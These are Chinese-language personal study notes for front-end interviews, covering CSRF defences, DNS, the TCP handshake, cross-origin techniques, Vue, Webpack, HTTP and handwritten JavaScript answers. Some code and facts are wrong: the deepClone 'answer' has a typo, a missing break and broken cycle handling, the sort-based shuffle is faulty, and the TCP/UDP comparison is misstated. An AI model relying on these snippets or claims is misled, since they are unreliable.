     直接禁止外域（或者不受信任的域名）对我们发起请求。

     - Origin Header
     - Referer Header

     我们可以通过这两个头来获取请求的来源

     同源检测的`致命性问题`：

     1. 当一个请求是页面请求（比如网站的主页），

        而来源是搜索引擎的链接（例如百度的搜索结果），也会被当成疑似CSRF攻击

     2. 并不能排除本域发起。如果攻击者有权限在本域发布评论（含链接、图片等，统称UGC），那么它可以直接在本域发起攻击，这种情况下同源策略无法达到防护的作用

  2. 业界对CSRF的防御，一致的做法是使用一个Token

     `原理： CSRF只是盗用cookie， 并不能获取cookie的数据并解析它`

     - 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中

       用户每一次提交数据的时候将token也给与服务器！

  3. 验证码

     其本质也类似于token, 增加伪随机数， 服务器进行额外的判断即可。

### 8 输入URL后

> https://segmentfault.com/a/1190000006879700

#### DNS解析：获取ip地址

> URL对应的IP  【从右向左的过程】
>
> 浏览器缓存DNS记录一段时间**， 浏览器也会存在DNS的缓存。
>
> 若你觉得很抽象，你可以理解成你要去图书馆去寻找一本书。图书馆根据书的【位置】进行管理。 

- 域名结构树、从左到右

  访问www.goole.com为例

  `.` -> `.com` -> `google.com.` -> `www.google.com.`

  根域名服务器 未寻找， 便去com域名寻找， 以此类推。

  . （ .标识根 ， 一般都可以省略 .）=> com => billbill.com => www

- DNS解析优化

  1. 浏览器缓存
  2. 系统缓存
  3. 路由器缓存
  4. IPS服务器缓存
  5. 根域名服务器缓存，顶级域名服务器缓存，主域名服务器缓存

- DNS负载均衡

  对于用户来说，具体哪个ip没人在乎。

  DNS可以返回一个合适的机器的IP给用户， 这种过程就是DNS负载均衡，又叫做DNS重定向
  
- 任播技术

  找寻最近的根域名服务器，即 [.]服务器管理顶级域名服务器【com\cn\net\gov】，顶级域名又会管理权威域名服务器【billbill、baidu、qq】。

  

- 域名解析过程

  > - 解析器会根据【域名】获取 ip地址。向DNS服务器发送请求。我们的电脑是由这个地址的！
  > - 若DNS地址错误，则会可以上QQ但不可以上网页。因为QQ是直接使用ip地址的，而非域名

  1. 浏览器发送解析请求至【解析器】（本地DNS服务器）
  2. 本地DNS服务器进行解析，查看缓存。非权威域名。 
  3. 本地DNS服务器咨询【根】，与根服务器域名对话，
  4. 根服务器域名并返回其【权威响应】，获取com服务器地址。
  5. 本地DNS服务器咨询com 向com域名服务器billbill域名的地址
  6. com域名服务器返回其 【billbill.com】的地址
  7. 与 【billbill.com】域名服务器对话，咨询[www.billbill.com]
  8. 此 【billbill.com】域名服务器返回给我们好几个地址【CDN的内容分发】，我们获取到了其地址！
  9. 本地DNS服务器 将其 ip返回DNS解析器客户端
  10. 并将其 IP 给服务器。

  

  过程

  1. 浏览器缓存寻找、主机文件查询。若有则结束过程。
  2. 

#### 建立TCP连接（三次握手）

为什么是TCP连接呢？因为HTTP协议是使用TCP作为其传输层协议的

> 为什么要三次握手？
>
> - 两次握手中，客户端知道了服务器具有接收信息和发送信息的能力
>
> ​          第三次握手：服务器就知道了客户端具有接收信息
>
> - 你的网络太拥堵， 不会为其客户端分配资源

#### 请求处理（http内容）

1. 发起请求

   HTTP请求包含请求`起始行`、`请求头部`、`请求主体`三部分

   - 请求行（状态行）

     1. 请求方法 
     2.  url地址 
     3. 协议名称与版本

   - 请求头： 

     1. 与缓存相关的规则信息
     2. HTTP的报文头， 服务端据此获取客户端的信息， 若干属性

   - 空行

   - 请求体

     请求附带的数据，数据格式多样。

2. 以 发请求 是否到服务器为区别， 缓存又分为强缓存与弱缓存。

3. 接收响应

   - HTTP报文封装成HTTP的Request对象. 主要包括状态码，响应头，响应报文三个部分。\
     1. 响应头主要由Cache-Control、 Connection、Date、Pragma等组成。
     2. 响应体为服务器返回给浏览器的信息，主要由HTML，css，js，图片文件组成。
     3. 状态码

#### 渲染页面

解析和渲染。在渲染页面之前，需要构建DOM树和CSSOM树。

- Reflow 回流

  元素的内容、结构、位置或尺寸发生了变化，需要重新计算样式和渲染树

- Repaint 重绘

  新的外观类样式修改，应用新样式绘制这个元素， 并不是结构性的修改。

1. HTML 解析出 DOM Tree

2. CSS 解析出 Style Rules

3. 两者关联生成 Render Tree

4. Layout（布局）根据 Render Tree 计算每个节点的信息

5. Painting 根据计算好的信息进行渲染整个页面

   > 如果遇到 script 标签，会立即解析脚本，停止解析文档（因为 JS 可能会改变 DOM 和 CSS,如果继续解析会造成浪费）。
   >
   > 现在 script 标签增加了 defer 和 async 属性，脚本解析会将脚本中改变 DOM 和 css 的地方> 解析出来，追加到 DOM Tree 和 Style Rules 上

#### 关闭TCP （四次挥手）

1. 第一次挥手

   浏览器 发送 FIN = 1 的请求，来请求断开连接

2. 第二次挥手

   服务器收到请求后，服务器发送ACK表示我收到了！

3. 第三次挥手

   浏览器收到后， 判断是否服务器可能还有数据要发送， 接着发送 FIN请求表示我也没有数据了！可以断。

4. 浏览器需要返回ACK表示同意， 此时断开。


### 9 跨域问题

https://juejin.cn/post/6844903767226351623#heading-15

- 是谁在阻止跨域？

  跨域并不是请求发不出去，请求能发出去，服务端能收到请求并正常返回结果，只是结果被浏览器拦截了

  故同源并不能完全阻止 CSRF，因为请求毕竟是发出去了

> 为什么要同源？
>
> - 如果缺少了同源策略，浏览器很容易受到XSS、CSRF等攻击
>
> 什么是同源？
>
> - `协议`+`域名`+`端口`   三者相同

#### 同源的限制

1.  Cookie、LocalStorage等存储内容
2. DOM节点
3. Ajax请求
4. 特别： img、link、script、video这类标签是可跨域加载资源

Cookie若不遵守跨域，太多隐私数据会被窃取！

#### 1 JSONP

- 全称： JSONP（JSON with Padding）

  其`借用 script标签的跨域性`去请求一个JS文件， 将数据放入其触发的回调函数当中，实现跨域。

1. 仅支持get传参， 因为是参数是给script的src的后缀结尾的！
2. 本质利用script的标签的跨域性

#### 2 cors

后端解决跨域方式之一。

1. 响应头 `Access-Control-Allow-Origin`告知可跨域的路径
2. 响应头`orgin`里按照后端要求去控制

#### 3 postMessage

#### 3 websocket

#### 4 nginx反向代理

后端实现。

#### 5 window.name + iframe

window.name 极其独特，可以存放2MB数据， 故存放 window.name中可实现跨域问题

- a.html欲与c.html跨域相互通信，通过中间页b.html来实现。

#### 6 document.domain + iframe

- 前提： 子域名相同！

- 原理： 通过js强制设置document.domain为基础主域， 便可实现主域跨域

- 例

  ```html
   a.zf1.cn:3000/a.html  获取页面     b.zf1.cn:3000/b.html中a的值
  
  // a.html
  <body>
    <iframe src="http://b.zf1.cn:3000/b.html" 
            frameborder="0" 
            onload="load()" 
            id="frame"></iframe>
    <script>
      document.domain = 'zf1.cn'
      function load() {
        console.log(frame.contentWindow.a);
      }
    </script>
  </body>
  
  // b.html
  <body>
     hellob
     <script>
       document.domain = 'zf1.cn'
       var a = 100;
     </script>
  </body>
  ```

### 10 javascript 的垃圾回收机制

> **解除一个值的引用并不意味着自动回收该值所占用的内存。解除引用的真正作用是让值脱离执行环境**

- JavaScript 在`创建对象(对象、字符串等`)时会为它们分配内存，不再使用对时会“自动”释放内存，这个过程称为垃圾收集。

  1. 引用计数

     引用计数的含义是跟踪记录每个值被引用的次数

  2. 标记清除

     当变量进入执行环境是，就标记这个变量为“进入环境”

- 内存泄漏

  1. 全局变量 => 全局下且使用 var 声明

  2. 定时器的执行

  3. 闭包

  4. 未清理的dom元素引用

     虽然我们removeChild这个元素，但是其引用还存在，导致内存泄漏

### 11 tcp 与 udp

1. TCP面向连接（三次握手、四次挥手） UDP不需要提前发送连接
2. TCP可靠。UDP尽力而为， TCP是面向字节，UDP是报文。所以UDP网络拥堵会丢包。
3. TCP一对一。 TCP一对多。

### 12 TCP的三次握手与四次挥手

> 下次一定要学会哦！

#### 01 | 握手之前

传输层： 端到端（客户端 与 服务端）

举例子： 我在客户端使用【火狐浏览器】、【chrome】浏览器同事打开【billbill】，为什么服务器端不会错误的发送应用进程呢？

1. 端口号 像管道一样，实现了特定的联系。
2. 电脑会分发端口号给不同的应用程序
   - 192.168.3.4：50978
   - 192.168.3.4：51022

#### 02 | 三次握手

> 三次握手（两次交流）其实在日常生活中也很常见。飞机机长与站点的联系。
>
> 1. 而握手机制的核心：怎么样的【握手】可以判断哪些【请求】【响应】需要被废弃 
>
> 2. TCP报文中有: SYN、ACK与FIN等标识。1代表开启标识，0代表关闭标识。
> 3. 在三次握手后，客户端与服务器端就可以互相发送相信【TCP是全双工的】

注意事项

1. `确认号` 对方生成的序号 + 1。故【确认号】非常重要！
2. 每一次的服务器端的自己的序列号都是由算法运算获取的，放置ddos，防止无限请求。

过程

1. 【客户端】发送【SYN】，代表客户端想要与客户端同步。

   1. 客户端序列号： 保证此条消息的唯一性。万一多个应用程序一起发送呢
   2. SYN： 1

   报文内容

2. 【服务器】在【TCP报文】将ACK、SYN开启。sync + ack为确认同步。

   1. SYN： 1
   2. ACK： 1  【acknowledge： 代表已知、穷确认】
   3. 服务器端序号
   4. 确认号： 根据客户端序列号 + 1 

3. 客户端获取TCP报文，并根据其服务器端的【确认号-1】判断是否是自己的报文，以此丢弃或者使用。

   客户端并将其发送给服务器，大家互相接受并进入ESTABLISHED状态。

   1. ACK
   2. 确认号：  服务器端的【序列号】+1
   3. ⭐ 客户端序列号： 服务器端的【确认号】
   4. ⭐ 此时客户端代表可以发送请求，握手结束。

#### 03 | 握手后

1. 握手后就建立连接，客户端即可发送http请求，服务器也可响应内容。
2. 他们就开启了之间的交流

#### 04 | 四次挥手

- 当客户端请求关闭连接的要求的时。便是进行四次挥手。

- 客户端与服务器端都可以主动发起关闭请求

- 由于握手之间序列号不断的递增，故序列号与确认好不再使用固定的数字来代表。

- 为什么要四次握手？

  三次握手似乎就可以，但目的是可能存在未发送完毕的数据。

  故 服务器端会立刻发送【fin + ack】，以让客户端再次决定是否要关闭。

  否则的话 你想想是不是两次挥手就可以保证了？又何必要四次挥手？

##### 客户端主动发起关闭

1. 客户端

   报文内容

   1. FIN： FINSH结束的含义。确认结束会话。

   2. ACK

   3. 序号

   4. 确认号

      确认号目的是告诉双方，由于他们已经建立关系了。故可以直接有已有确认号码。否则握手应该叫做五次握手。

2. 服务器端

   1. ACK
   2. 序列号: 使用 对方的确认号
   3. 确认号： 对方的确认号 + 1

3. 依旧是服务器端

   服务器端发送数据后，此时再会发送 ACK + FIN做最后确认。

   此时【序列号】、【确认号】保持不变，仅是一个告诉你的准备好可以关闭的状态。

   故不需要一来一回

4. 客户端

   报文

   1. 序号： 对方的确认号码
   2. 确认号： 对方的序号 + 1

   此时发送给服务器端方，服务器端关闭。

### 13 cdn

#### 01 | 为什么需要CDN？

1. 服务器可能离你自己有十万八千里， 越远的距离代表越多的节点，越多的丢包可能性。

   故产生了这样的一群人在世界上各地搭建网络服务器，为你而服务！

2.  这家公司教【Content Delivery Network】

3. 用户 => CDN => 源服务器

#### 01 | 分发内容

1. 静态内容 与 动态内容

2. 即便是静态内容也不一定是要保存在CDN中！

   ⭐ 源服务器发送文件给CDN时，可以用HTTP头部cache-control设置缓存文件。来告知CDN！

#### 02 | 分发流程

- 对于静态内容

  1. 源服务器将静态内容提前备份给与CDN
  2. 就近的CND服务器可以把静态内容给与客户器，而不需要劳烦服务器。若未部署，则CDN就得去源服务器去索取相应的静态内容。

- 动态内容

  若用户索取动态内容，CDN再向其 【源服务器】索取，则CDN提供不了加速服务，没什么必要。

  但是

  - CDN可以提供时间的动态服务，CDN提供运行在CDN的接口，保证时间的稳定。

#### 03 | 安全性与服务器

1. cdn的服务器超载便会转移到未超载的服务器，即负载均衡。

   任播：对外同一个接口，对内各个接口。

2. dns也会使用TLS/SSL对网站保护

#### 04  | cdn叫做加速器

1. cdn压缩文件
2. 减少费用，cdn就近准则，让其带宽减少！更省钱了！

## JS 与 DOM

### 1 event中target与currentTarget的区别

1. target返回的触发事件的元素 

   ⭐ 我们最常会用target进行 `事件委托`

   我虽然给的是一个 大的父极绑定的元素，

   但是点击哪个子元素时，event.target返回的是点击的元素节点

2. currentTarget返回绑定事件的元素

### 2 instanceof的原理

- 原理是 构造函数的 prototype 属性是否出现在对象的原型链中的任何位置、

  故instanceof总是返回的true与false

### 3 ES5 和 ES6 分别几种方式声明变量

 `let`、`const`、`class`声明的全局变量再也不会和全局对象的属性挂钩

- ES5 有俩种：`var` 和 `function`
- ES6 有六种：增加四种，`let`、`const`、`class` 和 `import`

### 4 DOM 事件有哪些阶段？谈谈对事件代理的理解

- 事件代理： 

  事件不直接绑定到某元素上，而是绑定到该元素的父元素上， 此后再通过条件判断子元素。

  好处： 代码简洁，且开销更小

- 捕获阶段--目标阶段--冒泡阶段

  1. **捕获阶段** (从根节点开始顺着目标节点构建一条事件路径，`即事件由页面元素接收，逐级向下，到具体的元素`)

  2. **目标阶段** (到达目标节点，`即元素本身`)

  3. **冒泡阶段** (从目标节点顺着捕获阶段构建的路径回去， `即跟捕获相反具体元素本身，逐级向上，到页面元素`)

### 5 requestAnimationFrame

js做动画是以定时器为核心实现，下一次的宏任务可能被上一次的宏任务堵塞。

1. 会把每一帧中的所有DOM操作集中起来，在一次重绘或回流中就完成

2. 更加智能。 更加的在隐藏或不可见的元素中，requestAnimationFrame将不会进行重绘或回流

3. requestAnimationFrame更像是一个独立的任务队列。 GUI渲染之前执行，但在微服务之后。

   绝对是一个异步任务

### 6 Object.is(val, val2)

> 略微的更合理了一些

1. Object.is(valueA,valueB) 以与严格相等运算符相同的方式检查相等性的参数
2. NaN 等于另一个 NaN 值
3. Object.is() 区分 -0 和 +0

### 7 隐式转换

- 共有

  ````js
  Number()
  String()
  Boolean() // 用 !! 同理
  parseInt()
  parseFloat()
  ````

### 8 a === 1 & a === 2

```js
var a = {
    value:0,
    valueOf :function(){
        this.value++;
    	return this.value;
	}
}
```

### 9 函数柯里化（Currying）

一个函数返回一个函数这便是函数柯里化。

## 二 CSS

### 1 BFC

块级格式化上下文 Block Formatting Context

> 1. margin会发生重叠
> 2. BFC的区域不会与float box重叠
> 3. BFC独立，不会影响外部元素

- 创建BFC  满足其一
  1. 存在浮动流
  2. position是绝对定位 、fixed
  3. 行内块元素、table-cell、flex
  4. overflow不是visible
  5. body

### 2 为什么要初始化 CSS 样式

- 不同浏览器对有些标签的默认值是不同的

### 3 CSS3的新特性

1. flex布局

2. :first-of-type,nth-child

3. transition 、transform、动画 @keyframes

4. 媒体查询 @media

5. 其余特性

   ```css
   透明     rgba（255, 0, 0, 0.75）；
   圆角效果  border-radius: 5px;
   渐变色    background:linear-gradient（red, green, blue）；
   阴影     box-shadow:3px 3px 3px rgba（0, 64, 128, 0.3）；
   超出文字  text-overflow:ellipsis;
   边框背景   border-image:url（bt_blue.png） 0 10
   ```

   


## 三 Vue

### vueX

> vuex的store有State、 Getter、Mutation 、Action、 Module五种属性\

1. **state** 为单一状态树
2. **getters** 类似vue的计算属性，主要用来过滤一些数据
3. **mutation** 更改store中state状态的唯一方法就是提交mutation
4. **action**  异步操作数据， view 层通过 store.dispath 来分发 action

如何共享？

1. vuexinit混淆进Vue的beforeCreacte钩子

   beforeCreate的时候注册了store， 若为根元素可直接获取，否则从parent上取store

### vue传值方式

1. 依赖注入 provide / inject => **一个祖先组件向其所有子孙后代注入一个依赖**

2. `$attrs`/`$listeners` => **跨级组件之间的通讯变得更简单** 

   一个负责收纳属性，一个负责收纳事件

   $attrs存在了父元素但未被prop所识别。

   你应该配合 inheritAttrs: false 来使用！

   ```js
   <child-com1
         :foo="foo"
         :boo="boo"
         :coo="coo"
         :doo="doo"
         title="前端工匠"
   ></child-com1>
   
   
   在 child-com1 中再引用这些
    <child-com2 v-bind="$attrs"></child-com2>
    可获取  this.$attrs
   
   childCom2.vue
    props: {
       coo: String,
       title: String
     }
   
    this.$listeners.two()
   ```

   - 关于 listener

     ```js
     <child 
         :foo="foo" 
         :bar="bar"
         @one.native="triggerOne"
         @two="triggerTwo">
     </child>
     
     则再child里 this.$listeners.two(); => 便可以访问到 triggerTwo
     # v-on="$listeners" 一级级的往下传递，子子孙孙无穷尽也！
     ```

     

3. bus通信， vue3已废弃

4. 父子传值 props / $emit

5. vuex

6. `$parent` / `$children`与 `ref`

7. 插槽

### 父组件监听子组件的生命周期

1. @hook对应的生命周期即可

   ```js
   <Child @hook:mounted="doSomething" ></Child>
   ```

2. 对应声明周期 $emit即可


### 虚拟DOM

#### 1 真实DOM的解析过程

创建DOM树 => 创建StyleRules => 创建Render树 => 布局Laypit => 绘制Painting

1. 创建DOM树: 用HTML分析器，分析HTML元素，**构建一颗DOM树**
2. StyleRules:  用CSS分析器，分析CSS文件和元素上的inline样式，生成页面的样式表
3. 将DOM树和样式表，关联起来，构建一颗Render树
4. 有了Render树，浏览器开始布局。为每个Render树上的节点确定一个在显示屏上出现的精确坐标。
5. Render树和节点显示坐标都有了，就调用每个节点**paint方法，把它们绘制**

#### 2 为什么虚拟DOM快？

1. 为什么真实DOM慢?

   答：JS操作DOM时。浏览器会从构建DOM树开始从头到尾执行一遍流程。即便你还有9次更新，这9次更新也会重复这步骤。不会缓存之前的任何结果。

2. 虚拟DOM的好处

   为什么一次性更快呢 ?  => 因为预先操作JS对象更加快！

   若一次操作中有10次更新DOM的动作，虚拟DOM不会立即操作DOM，而是将这10次更新的diff内容保存到本地一个JS对象中，最终将这个JS对象`一次性attch到DOM树上`

3. VDOM的真正意义

   vdom 的真正意义是为了实现跨平台，服务端渲染，以及提供一个性能还算不错 Dom 更新策略。

   Diff算法只是为了虚拟DOM比较替换效率更高，通过Diff算法得到diff算法结果数据表

   **DOM** **fragment**来操作dom是原本就是有的功能，只不过现在帮你进行打包操作了！

#### 3 关于源码

https://segmentfault.com/a/1190000008291645

#### 4 Vue通过数据劫持可以进准探测数据变化，为什么还需要虚拟DOM进行diff检测差异？

如果给每个属性都添加watcher用于更新的话，会产生大量的watcher从而降低性能

所以vue采用了组件级的watcher配合diff来检测差异。

⭐ vue 2.x中为了降低Watcher粒度，每个组件只有一个Watcher与之对应，只有引入diff才能精确找到 发生变化的地方

### Vue 双向绑定原理

> 当数据发生变化时，触发 Observer 中 setter 方法，
>
> 立即调用 Dep.notify(),Dep 这个数组开始遍历所有的订阅者，并调用其 update 方法，
>
> Vue 内部再通过 diff 算法，patch 相应的更新完成对订阅者视图的改变

1. 数据监听器 Observer 

   数据劫持， 初始getter时进行依赖收集至Wachter中的Dep， 

   若进行改动，触发setter中的Wachter的Dep的notify

2. Compile

   在对VNODE进行解析的时候，即触发getter进行依赖收集

3. Wachter

   即连接 Observer 和 Compile 的桥梁， 存储对应回调事件，从而实现双绑。

### Vue的响应式

> 此与绑定原理异曲同工

1. 任何一个 Vue Component 都有一个与之对应的 Watcher 实例
2. data会被劫持与代理
3. getter 方法会被调用, 此时 Vue 会去记录此 Vue component 所依赖的所有 data。(这一过程被称为依赖收集)
4. data 被改动时（主要是用户操作）, 即被写, setter 方法会被调用, 此时 Vue 会去通知所有依赖于此 data 的组件去调用他们的 render 函数进行更新

### computed与watch实现机理

> wachter机制


### vue的nextTick

ick 即指的是微任务！与微任务进行了联动！

nextTick的主要目的就是为了`让你获取到更新后的dom元素`, 不过在此时也保证了dom肯定存在

> 一处误区
>
> 虽然UI渲染也是一个宏任务，但DOM的修改是一个同步的任务！故vue在实现的时候其实也考虑到了此点，
>
> vue的dom操作是微任务，之后再进行UI渲染，减少了ui的渲染性能。

实现

1. Promise.then

2. MutationsObserve 

   - 由于IOS存在bug， 已于2.5版本废弃。

   主动去监听与修改textNode节点的内容，以便于事件加入到微任务中

3. setImmdiate => 通过宏任务去调用微任务process.nextTick

   - vue2.5废弃MutationsObserve 的代替品

   Node.js提供的`setImmediate()`函数

   事件循环的当前迭代中执行传递给`process.nextTick()`函数

4. MessageChannel 宏任务

   - setTimeout 是有最小延迟时间的， 5 层以上的定时器嵌套会导致至少 4ms 的延迟
   - `无延迟的定时器！`

5. setTimeout宏任务


## 四、Webpack

### 1 常见 loader 和 plugin

- 常见loader

  1. 样式：style-loader、css-loader、less-loader、sass-loader等
     - post-css： 根据browserlist，解决css在不同浏览器的兼容
     - postcss-preset-env： 解决CSS新特性兼容问题
  2. 文件：raw-loader、file-loader 、url-loader等
  3. 编译：babel-loader、、ts-loader等
  4. 校验测试: eslint-loader等

- 常见plugin

  1. webpack内置`UglifyJsPlugin`，压缩和混淆代码
  2. webpack内置`CommonsChunkPlugin`，提高打包效率，将第三方库和业务代码分开打包
  3. `html-webpack-plugin`可以根据模板自动生成html代码，并自动引用css和js文件
  4. `DefinePlugin` 编译时配置全局变量，这对开发模式和发布模式的构建允许不同的行为非常有用。
  5. `HotModuleReplacementPlugin` 热更新
  6. CleanWebpackPlugin 自动删除打包资源

### 2 为什么loader是反向的？

函数组合编程。

有两种函数组合的方式，一种是pipe，另一种是compose。前者从左向右组合函数，后者方向相反。

Webpack选择了compose方式，而不是pipe的方式而已，在技术上实现从左往右也不会有难度

### 3 webpack配置优化

### 4 若postcss打包less的时候 @import的时候要注意什么？

- 按理应该 less-css-loader => post-css-loader => css-loader => style-loader

⭐`@import 的语法是在 js中的（此时负责的模块为 css - loader ）`，

- 故此时 css-loader => style-loader， 不会被解析， 你应该设

  ```js
   {
              loader: "css-loader",
              options: {
                importLoaders: 2 // 回调两层 即 less -> post -> css
              }
            },
  ```

### 5 处理文件的loader有哪几种？

1.  file-loader 
2. url-loader
   - 通过limit设置 url-loader 将较小的文件转为` base64 的URL`
3. webpack5 提供资源模块可以更快速

### 6 loader与plugin

1. loader用于转换模块类型， 而plugin 用于更加`广泛的业务 `

2. 插件目的在于解决 [loader](https://webpack.docschina.org/concepts/loaders) 无法实现的**其他事**

3. Loader的作用是让webpack拥有了加载和解析非JavaScript文件的能力。

   让webpack具有更多的灵活性。 在 Webpack 运行的生命周期中会广播出许多事件，

   Plugin 可以监听这些事件，在合适的时机通过 Webpack 提供的 API 改变输出结果

## 五、Http

> https://zhuanlan.zhihu.com/p/386151475

### 1 http报文头部

- 请求报文

  ```js
  POST /user HTTP/1.1      //请求行
  Host: www.user.com
  Content-Type: application/x-www-form-urlencoded
  Connection: Keep-Alive
  User-agent: Mozilla/5.0.      //以上是首部行
  （此处必须有一空行）  //空行分割header和请求内容 
  name=world   请求体
  ```

  1. 请求行:     **请求方法**，**请求URL**（不包括域名），**HTTP协议版本**

     ```js
     POST /user HTTP/1.1  
     ```

  2. 请求头部

     - User-Agent : 产生请求的浏览器类型
     - Accept : 客户端希望接受的数据类型，比如 Accept：text/xml（application/json）表示希望接受到的是xml（json）类型
     - Content-Type：发送端发送的实体数据的数据类型。
     - Host : 请求的主机名，允许多个域名同处一个IP地址，即虚拟主机

  3. 空行

     - 请求头之后是一个空行，通知服务器以下不再有请求头

  4. 请求体

     GET没有请求数据，POST有。

- 响应报文

  1. 状态行
  2. 响应头部
  3. 空行
  4. 响应体

## N 笔试

### 0 题目汇总⭐

1. 节流与防抖 答案: 略
2. 深拷贝 考虑的情况很多， 答案是一个非常完美的示范
3. 数组去重
4. 数组乱序
5. 手写 call、apply与bind
6. 继承 （ES5、ES6）
7. sleep函数
8. 实现promise、

### 2 深拷贝

- 关于正则拷贝的疑问

  ````js
  var regexp = new RegExp('xyz', 'gim'); => var regexp = /xyz/gim;
  
  									  xyz			gim
  const result = new target.constructor(target.source, reFlags.exec(target));
  ````

  

答案

````js
//判断数据是不是引用类型
function isObject(target) {
  return (
    target !== null &&
    (typeof target === "object" || typeof target === "function" || typeof target === 'symbol')
  );
}
// symbol、reg、function
function cloneType(type, target) {
  if (type === 'symbol') {
    return Object(Symbol.prototype.valueOf.call(target))
  }
  if (type === 'reg') {
    // 匹配字母、数字、下划线
    const reFlags = /\w*$/;
    // source 属性返回一个值为当前正则表达式对象的模式文本的字符串，该字符串不会包含正则字面量两边的斜杠			以及任何的标志字符。
    // JavaScript 正则表达式 constructor 属性返回 function RegExp() { [native code] }
    const result = new target.constructor(target.source, reFlags.exec(target));
    result.lastIndex = target.lastIndex;
    return result;  
  }
  if (type === 'function') {
    return function () {
      targe.call(this, ...arguments);
    };
  }

}

function init(type) {
  let result = null;
  switch (type) {
    case "[object Array]":
      result = [];
      break;
    case "[object Object]":
      result = {};
      break;
    case "[object Map]":
      result = new Map();
      break;
    case "[object Set]":
      result = new Set();
      break;
  }
  return result;
}

function deepClone(target) {
  let map = {};
  const result = clone(target, map);
  map = null;
  return result;
  function clone(target, map) {
    const isObj = isObject(target);
    const type = Object.prototype.toString.call(target);
    if (isObj) {
      let result = null;
      // 初始化
      result = init(type);
      if (type === "[object Object]") {
        const keys = Object.keys(target);
        keys.map(key => {
          //解决循环引用
          if (map[key]) return map[target];
          else {
            result[key] = clone(target[key], map);
            map[key] = result;
          }
        });
      }
      else if (type === "[object Array]") {
        const len = target.length;
        let i = -1;
        while (i++ < len - 1) {
          result[i] = clone(target[i], map);
        }
      }
      else {
        switch (type) {
          case "[object Date]":
            result = new Date(target);
            break;
          case "[object RegExp]":
            result = cloneType('reg', target);
            break;
          case "[object Function]":
            result = cloneType('function', target);
            break;
          case "[object Set]":
            target.forEach((value) => {
              result.add(clone(value, map));
            });
          case "[object Map]":
            target.forEach((value, key) => {
              result.set(key, clone(value, map));
            });
            break;
          case "[object Symbol]":
            result = cloneType('symbol', target);
        }
      }
      return result;
    }
    // 非对象 基本类型
    if (!isObj) {
      return target;
    }
  }
}
````

### 3 数组去重

> 1. 利用语法自身或键不可重复的特性使用重复
> 2. 循环比较去除重复

1. Set助我！

   - Set本身不可重复

   ```js
   Array.from (new Set(arr))
   ```

2. Map助我

   - Map的键名不可重复

   ````js
   // 你当然可以通过myMap.has(key)来优化
   arr.map(item => {myMap.set(item, null)});
   myMap.forEach((item, key) => {
       myArr.push(key);
   })
   ````

3. 双重循环去除重复

   > 实现方法大同小异

   ```js
   for (let i = 0; i <= arr.length - 1; i++) {
     let j = arr.length;
     while (--j > i) {
       console.log(j);
       if (arr[i] === arr[j]) {
         arr.splice(j, 1)
       }
     }
   }
   ```

4. `indexOf` 去除重复

   `includes` 同理 略

   你也可以用filter过滤， 但没必要吧，以上四种已经很简便了

   ```js
   let array = []
   for (var i = 0; i < arr.length; i++) {
     if (array.indexOf(arr[i]) === -1) {
       array.push(arr[i])
     }
   }
   console.log(array);
   ```

### 4 数组乱序

> 数组进行乱序处理 不过这是虚伪的随机

````js
arr.sort(function () {
   return .5 * Math.random(); 
});
````

- 更好的实现

  ```js
  function shuffle(array) {
      var m = array.length,
          t, i;
      while (m) {
          i = Math.floor(Math.random() * m--);
          t = array[m];
          array[m] = array[i];
          array[i] = t;
      }
      return array;
  }
  ```

  

> 题目升级: **有一个长度为 100 的数组，如何从中随机挑选 50 个元素，组成一个新的数组？**

洗牌算法

````js
function getRandomArrElement(arr, count) {
    let shuffled = arr.slice(0), 
        i = arr.length, 
        min = i - count, 
        temp, 
        index;
    while (i > min) {
        index = Math.floor((i--) * Math.random());
        temp = shuffled[index];
        shuffled[index] = shuffled[i];
        shuffled[i] = temp;
    }
    return shuffled.slice(min);
}
````

### 5 call、apply与bind

此外： https://segmentfault.com/a/1190000020871501

1. call

   - 将函数设为对象的属性

   ````js
   Function.prototype.myCall = function(_this = window) {
     _this.fn = this;
     let args = [...arguments].slice(1);
     let result = _this.fn(...args);
     delete _this.fn;
     return result;
   }
   ````

   

2. apply

   ````js
   Function.prototype.myApply = function(context = window, args = []) {
     context = context || window; // 参数默认值并不会排除null，所以重新赋值
     context.fn = this; // this是调用call的函数
     const result = context.fn(...args);
     delete context.fn;
     return result;
   }
   ````

3. bind

   ```js
   Function.prototype.myBind = function(context, ...args) {
     const _this = this;
     return function Bind(...newArgs) {
       // 考虑是否此函数被继承
       if (this instanceof Bind) {
         return _this.myApply(this, [...args, ...newArgs])
       }
       return _this.myApply(context, [...args, ...newArgs])
     }
   }
   ```

### 6 继承 （ES5、ES6）

#### 1 寄生组合式继承

- `组合式继承`: 原型链+构造函数

  1. 独享【属性】或【方法】用`构造`

  2. 共享【属性】或【方法】用`原型`！

     ````js
     function Father(name) {}
     Father.prototpe.say = function() {}
     
     function Son() {
         Super.call(this); # 继承属性
     }
     #1 继承方法 当然此处也会继承属性，不过由于存在相同的实例属性故会被拦截
     Son.prototype = new Father();
     ````

- `寄生式继承的`

  1. 首先要明白 `原型式继承`

     - 相当于又一个person的拷贝， 若其有引用类型，则是共有属性！在你不覆盖的前提下！

       不通过prototype便可以实现了一个共有属性！

     - 你可以`增强`这份`拷贝`

     ````js
     var person2 = Object.create(person, {
        name: {
         	value: 'Greg',  
        },
     });
     ````

  2. 寄生继承

     寄生继承 面对的是 对象这种类型，故给他起名字为寄生。 原理其实与原型式继承几乎相同。

     我只要返回一个新的对象给你，那么其实就是可以称呼其为寄生继承

     ```js
     function inheritProtoType(son, father) {
         var prototype = object(father.prototype); // 创建父类原型的副本
         # 修改原型导致 构造函数属性丢失（因为你将prototype转为了对象!）
         prototype.constructor = son;		   	  // 将该副本的constructor属性指向子类
         son.prototype = prototype;			      // 将子类的原型属性指向副本
     }
     ```

- `寄生组合式继承`

  1. 组合式继承

     独享【属性】或【方法】用`构造`

     共享【属性】或【方法】用`原型`

  2. 寄生继承解决继承的时候问题

     > 由于既需要继承 父类的 公有属性与方法， 也需要继承私有属性与方法， 那便会导致多余的一次构造被调用。

     ```js
     function Sub(age) {				# 构造函数继承（实例化父属性）
         Super.call(this);            
     	this.age = age;
     }
     								# 原型继承
     Sub.prototype = new SuperType();
     ```

     > 故有什么好办法，让原型继承不执行构造函数呢？ => 寄生继承``

     本质就是将原型改为对象，再指下。很好理解！确实如此！

     ```js
     function inheritProtoType(son, father) {
         
         var prototype = object(father.prototype); // 创建父类原型的副本
         # 修改原型导致 构造函数属性丢失（因为你将prototype转为了对象!）
         prototype.constructor = son;		   	  // 将该副本的constructor属性指向子类
         son.prototype = prototype;			      // 将子类的原型属性指向副本
     }
     ```

